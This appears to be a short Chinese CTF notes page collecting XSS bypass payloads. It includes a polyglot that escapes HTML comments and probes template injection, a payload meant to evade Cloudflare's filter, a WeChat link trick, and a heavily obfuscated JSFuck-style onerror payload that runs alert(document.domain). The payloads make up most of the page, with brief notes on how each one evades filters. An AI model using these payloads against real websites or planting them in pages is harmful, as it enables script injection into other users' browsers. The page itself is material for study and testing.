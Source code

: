 ```yaml
---
title: 神秘XSS Bypass
date: 2025-07-22 16:14:14
tags: XSS
category: CTF
permalink: /神秘XSS Bypass/
---
```


```html
'"--><svg/onload=top[30]()>${{4*9}}<script>+alert?.``</script>
```

- top[30] () →不使用
- alert 字词触发 XSS alert? .\`` →可选链 + 模板字面量隐秘 JS 执行
- -->< svg > →跳出 HTML 注释
- $ {{ 4*9 }} → SSTI,CSTI

---

微信XSS

```html
<a href="weixin://bizmsgmenu?msgmenucontent=测试内容&msgmenuid=960">显示内容</a>
```

---

CloudFlare

```html
"><P/onpointerenter=alert(1)>
```

---

```html
"><img/src=x onerror="𐂃='',𐃨=!𐂃+𐂃,𐂝=!𐃨+𐂃,𐃌=𐂃+{},𐁉=𐃨[𐂃++],𐃵=𐃨[𐂓=𐂃],𐀜=++𐂓+𐂃,𐂠=𐃌[𐂓+𐀜],𐃨[𐂠+=𐃌[𐂃]+(𐃨.𐂝+𐃌)[𐂃]+𐂝[𐀜]+𐁉+𐃵+𐃨[𐂓]+𐂠+𐁉+𐃌[𐂃]+𐃵][𐂠](𐂝[𐂃]+𐂝[𐂓]+𐃨[𐀜]+𐃵+𐁉+'(document.domain)')()"
```

---

```html

```
